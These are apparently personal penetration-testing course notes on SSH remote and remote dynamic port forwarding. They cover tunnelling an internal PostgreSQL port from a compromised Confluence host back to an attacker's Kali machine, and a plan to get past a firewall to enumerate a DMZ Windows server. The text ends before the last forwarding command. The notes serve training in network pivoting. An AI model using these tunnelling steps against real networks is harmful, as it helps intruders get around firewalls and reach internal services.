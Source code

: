 ![[Pasted image 20240514231027.png]]

### forwarding

```
ssh -N -R 127.0.0.1:2345:10.4.209.215:5432 kali@kali_IP -p 2222
```

![[Pasted image 20240514231440.png]]

### Verify

![[Pasted image 20240514231530.png]]

### Connect service

```
psql -h 127.0.0.1 -p 2345 -U postgres
```

![[Pasted image 20240514231637.png]]


# SSH Remote Dynamic port

Also we need version >=7.6 for ssh

again same situation as local like we can bind one port only with SSH remote port

Just as the name suggests, remote dynamic port forwarding creates a dynamic port forward in the remote configuration. The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.

![[Pasted image 20240515001811.png]]

This time we find a Windows server (MULTISERVER03) on the DMZ network. The firewall prevents us from connecting to any port on MULTISERVER03, or any port other than TCP/8090 on CONFLUENCE01 from our Kali machine. But we can SSH out from CONFLUENCE01 to our Kali machine, then create a remote dynamic port forward so we can start enumerating MULTISERVER03 from Kali

![[Pasted image 20240515002000.png]]

### start SSH server

```
sudo kilall ssh

sudo systemctl start ssh
```

### forwarding

must be done in TTY shell
